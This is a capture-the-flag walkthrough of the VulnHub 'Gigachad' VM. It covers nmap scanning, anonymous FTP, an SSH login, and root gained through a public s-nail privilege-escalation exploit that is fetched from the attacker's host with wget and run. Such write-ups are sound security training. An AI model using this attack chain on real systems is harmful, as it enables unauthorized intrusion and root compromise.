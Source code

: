 ```yaml
---
title: "Gigachad CTF walkthrough"
description: "Gigachad CTF walkthrough"
layout: post
---
```


as always the VM can be found [here](https://www.vulnhub.com/entry/gigachad-1,657/)
nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ nmap -p- -sV 192.168.56.151
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 22:42 EDT
Nmap scan report for 192.168.56.151
Host is up (0.0092s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
{% endhighlight %}

robots.txt
{% highlight text %}
User-agent: *
Disallow: /kingchad.html
{% endhighlight %}

logging anonymously into the FTP service
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ftp 192.168.56.151                                                      130 ⨯
Connected to 192.168.56.151.
220 (vsFTPd 3.0.3)
Name (192.168.56.151:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 1000     1000          297 Feb 07 17:33 chadinfo
226 Directory send OK.
ftp> get chadinfo
local: chadinfo remote: chadinfo
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for chadinfo (297 bytes).
226 Transfer complete.
297 bytes received in 0.00 secs (87.0465 kB/s)
ftp> 
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ cat chadinfo
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
{% endhighlight %}

A reverse image search of drippinchad.png shows that the place is called the maidens 
tower in turkey. 

logging in with chad:maidenstower
{% highlight terminal %}                                                           
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ssh chad@192.168.56.151
chad@192.168.56.151's password: 
Linux gigachad 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
 
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 31 22:15:12 2021 from 192.168.56.101
chad@gigachad:~$
{% endhighlight %}

SUID bins
{% highlight terminal %}
chad@gigachad:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
{% endhighlight %}
We use searchsploit look for exploits for the installed s-nail program: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs]
└─$ searchsploit s-nail                 
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalation        | multiple/local/47172.sh
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

Preparing the exploit: 
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
File Type: POSIX shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/ctfs/gigachad/47172.sh
{% endhighlight %}
After some `bad interpreter` errors with both `sh` and `bash`, I tried converting 
the script to a unix format. 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ dos2unix 47172.sh 
dos2unix: converting file 47172.sh to Unix format...
{% endhighlight %}

Getting the exploit to the victim machine: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.151 - - [01/Apr/2021 10:34:48] "GET /47172.sh HTTP/1.1" 200 -
{% endhighlight %}

wget the script and run the exploit: 
{% highlight terminal %}
chad@gigachad:~$ wget http://192.168.56.101:8000/47172.sh
chad@gigachad:~$ chmod +x 47172.sh 
chad@gigachad:~$ ./47172.sh 

[.] Race #833 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 Apr  1 09:40 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# ls
47172.sh  ftp  user.txt
# id
uid=0(root) gid=0(root) groups=0(root),1000(chad)
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
{% endhighlight %}
